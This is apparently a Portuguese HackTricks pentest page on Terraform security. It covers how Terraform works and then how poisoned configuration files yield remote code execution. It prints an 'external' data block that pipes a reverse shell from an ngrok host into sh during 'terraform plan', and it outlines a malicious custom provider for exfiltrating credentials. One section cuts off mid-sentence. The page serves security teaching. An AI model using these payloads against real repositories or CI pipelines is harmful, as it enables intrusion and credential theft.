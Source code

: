 # Segurança do Terraform

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **versão mais recente do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) **e** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **repositórios do github.**

</details>

## Informações básicas

O HashiCorp Terraform é uma ferramenta de **infraestrutura como código** que permite definir recursos **em nuvem e locais** em arquivos de configuração legíveis por humanos que você pode versionar, reutilizar e compartilhar. Você pode então usar um fluxo de trabalho consistente para provisionar e gerenciar toda a sua infraestrutura ao longo do seu ciclo de vida. O Terraform pode gerenciar componentes de baixo nível, como recursos de computação, armazenamento e rede, bem como componentes de alto nível, como entradas DNS e recursos SaaS.

### Como o Terraform funciona?

O Terraform cria e gerencia recursos em plataformas em nuvem e outros serviços por meio de suas interfaces de programação de aplicativos (APIs). Os provedores permitem que o Terraform trabalhe com praticamente qualquer plataforma ou serviço com uma API acessível.

![](<../../.gitbook/assets/image (33).png>)

A HashiCorp e a comunidade Terraform já escreveram **mais de 1700 provedores** para gerenciar milhares de tipos diferentes de recursos e serviços, e esse número continua a crescer. Você pode encontrar todos os provedores disponíveis publicamente no [Terraform Registry](https://registry.terraform.io/), incluindo Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog e muitos mais.

O fluxo de trabalho básico do Terraform consiste em três etapas:

* **Escrever:** Você define recursos, que podem estar em vários provedores e serviços em nuvem. Por exemplo, você pode criar uma configuração para implantar um aplicativo em máquinas virtuais em uma rede Virtual Private Cloud (VPC) com grupos de segurança e um balanceador de carga.
* **Planejar:** O Terraform cria um plano de execução descrevendo a infraestrutura que criará, atualizará ou destruirá com base na infraestrutura existente e em sua configuração.
* **Aplicar:** Com aprovação, o Terraform executa as operações propostas na ordem correta, respeitando quaisquer dependências de recursos. Por exemplo, se você atualizar as propriedades de uma VPC e alterar o número de máquinas virtuais nessa VPC, o Terraform recriará a VPC antes de dimensionar as máquinas virtuais.

![](<../../.gitbook/assets/image (81).png>)

### Terraform Enterprise

O Terraform Enterprise permite que você **execute comandos** como `terraform plan` ou `terraform apply` remotamente em uma **versão hospedada por você do Terraform Cloud**. Portanto, se você encontrar a **chave da API** para acessar esse servidor Terraform, poderá **comprometê-lo**.\
Para mais informações, consulte:

{% content-ref url="terraform-enterprise-security.md" %}
[terraform-enterprise-security.md](terraform-enterprise-security.md)
{% endcontent-ref %}

## Laboratório do Terraform

Basta instalar o terraform em seu computador.

Aqui você tem um [guia](https://learn.hashicorp.com/tutorials/terraform/install-cli) e aqui você tem a [melhor maneira de baixar o terraform](https://www.terraform.io/downloads).

## RCE no Terraform

O Terraform **não tem uma plataforma que exponha uma página da web ou um serviço de rede** que possamos enumerar, portanto, a única maneira de comprometer o terraform é **ser capaz de adicionar/modificar arquivos de configuração do terraform**.

No entanto, o terraform é um **componente muito sensível** para comprometer porque terá **acesso privilegiado** a diferentes locais para que possa funcionar corretamente.

A principal maneira para um invasor ser capaz de comprometer o sistema onde o terraform está sendo executado é **comprometer o repositório que armazena as configurações do terraform**, porque em algum momento elas serão **interpretadas**.

Na verdade, existem soluções por aí que **executam o plano/apply do terraform automaticamente após a criação de um PR**, como o **Atlantis**:

{% content-ref url="../atlantis-security.md" %}
[atlantis-security.md](../atlantis-security.md)
{% endcontent-ref %}

Se você conseguir comprometer um arquivo terraform, existem diferentes maneiras de executar RCE quando alguém executar `terraform plan` ou `terraform apply`.

### Terraform plan

O Terraform plan é o **comando mais usado** no terraform e os desenvolvedores/soluções que usam o terraform o chamam o tempo todo, portanto, a **maneira mais fácil de obter RCE** é garantir que você envenene um arquivo de configuração do terraform que executará comandos arbitrários em um `terraform plan`.

#### Usando um provedor externo

O Terraform oferece o provedor [`external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs), que fornece uma maneira de interface entre o Terraform e programas externos. Você pode usar a fonte de dados `external` para executar código arbitrário durante um `plan`.

Injetar em um arquivo de configuração do terraform algo como o seguinte executará um rev shell ao executar `terraform plan`:

```javascript
data "external" "example" {
  program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```

#### Usando um provedor personalizado

Qualquer pessoa pode escrever um [provedor personalizado](https://learn.hashicorp.com/tutorials/terraform/provider-setup) e publicá-lo no [Terraform Registry](https://registry.terraform.io/). Você também pode tentar puxar um provedor personalizado de um registro privado.

É isso:

* escreva um provedor personalizado que execute algum código malicioso (como exfiltrar credenciais ou dados do cliente)
  * publique-o no Terraform Registry
  * adicione o provedor ao código do Terraform em um branch de recurso
  * abra um PR para o branch de recurso

```javascript
 terraform {
        required_providers {
            evil = {
                source  = "evil/evil"
                    version = "1.0"
            }
        }
    }

provider "evil" {}
```

Como o provedor será puxado durante o `init` e executará algum código durante o `plan`, você tem execução de código arbitrário.

Você pode encontrar um exemplo em [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Usando uma referência externa

Ambas as opções mencionadas são úteis, mas não muito furtivas (a segunda é mais furtiva, mas mais complexa do que a primeira). Você pode realizar esse ataque até mesmo
## Ferramentas de Auditoria

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec usa análise estática do seu código terraform para detectar possíveis configurações incorretas.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan é um analisador de código estático para Infraestrutura como Código.

## Referências

* [Atlantis Security](../atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>